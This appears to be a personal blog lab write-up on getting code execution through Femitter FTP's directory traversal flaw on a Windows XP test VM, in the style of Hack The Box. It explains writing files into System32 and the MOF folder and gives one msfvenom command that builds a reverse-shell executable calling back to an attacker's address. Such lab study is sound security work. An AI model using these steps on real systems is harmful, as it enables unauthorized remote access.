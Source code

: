 ```yaml
---
layout: single
title: Exploiting Femitter FTP in a Post-Dropzone World
date: 2019-2-16
classes: wide
header:
  teaser: /assets/images/Femitter/fem.png
tags:
  - Femitter
  - Directory Transversal
  - DropZone
  - MOF
  - FTP
  - Windows XP
  - RCE
  - hackthebox.eu
--- 
```

  
  After watching [Ippsec's walkthrough for Dropzone](https://www.youtube.com/watch?v=QzP5nUEhZeg&t=1743s) on [hackthebox.eu](https://hackthebox.eu), I was pretty amazed that you could get code execution on Windows XP with just write privileges. If you have not seen the walkthrough yet, I highly encourage you watch it. He goes over MOF files, Stuxnet, MSF's interactive Ruby shell, etc. 

  In the walkthrough, he uses TFTP to upload an executable to the victim's System32 directory and then uploads a malicious MOF file to the System32/wbem/mof directory which runs the executable. I had to try this for myself! I started thinking about potential XP lab setups and settled on Femitter FTP as it allows for directory transversal. Typically, this vulnerability is used for enumeration and file reading, but if there was a way to use the directory transversal to write to directories of interest, we could potentially replicate what Ippsec had done on Dropzone and get code execution. 

### Getting Femitter FTP Up and Running
  The Femitter installer can be downloaded [here](http://acritum.com/fem) and about half-way down the page there is a link to 'Download the latest version.' Once placed on your XP VM, simply run the installer with all default configurations and it will place a folder called 'Femitter' in your 'Program Files' directory. Navigate to the Femitter folder and run the exe. Click on the 'FTP Server' tab and select 'Start.' Check that your VM is now running the FTP server on port 21 with a simple nmap scan.
  
### Quest for RCE
  By default, Femitter will allow anonymous authentication and will drop an authenticated user into the C:/Program Files/Femitter/Shared directory which is not writable. After changing to the 'Upload' directory, which is writable we are able to place files onto the remote box. Let's first test the well-documented directory transversal vulnerability which can be found on Exploit DB [here](https://www.exploit-db.com/exploits/15445). 

![](/assets/images/Femitter/fem_dirTransverse.png)

  Ok awesome, the exploit from nearly 10 years ago still works, this is ground breaking stuff here ;). After trying a bunch of different ways to directly upload files to directories of interest, I was only able to find 2 ways with the Linux FTP client. The first stipulation I found was that your working directory on the FTP server has to be writable. You cannot, for instance PUT a file and specify a destination path like `../../../../windows/system32/example.exe` without first making sure the working directory is writable. As long as the is writable there are at least a couple of ways to get the files where we want them. The first way is to PUT the file and then specify the destination path like I already said.

![](/assets/images/Femitter/putSystem32.png)

The second way, is to PUT the file and then rename the file specifying it's full path. 

![](/assets/images/Femitter/putRename.png)

Now we have everything we need to get code execution since we can use the directory transversal to put files where we want them. I just used `msfvenom` to create my executable with `msfvenom -p windows/shell_reverse_tcp lhost=<yourIP> lport=443 -f exe -o zzzzz.exe` and I had already created a malicious MOF file following along with Ippsec's walkthrough (again, watch his walkthrough.) 

![](/assets/images/Femitter/putMOF.png)


  

  
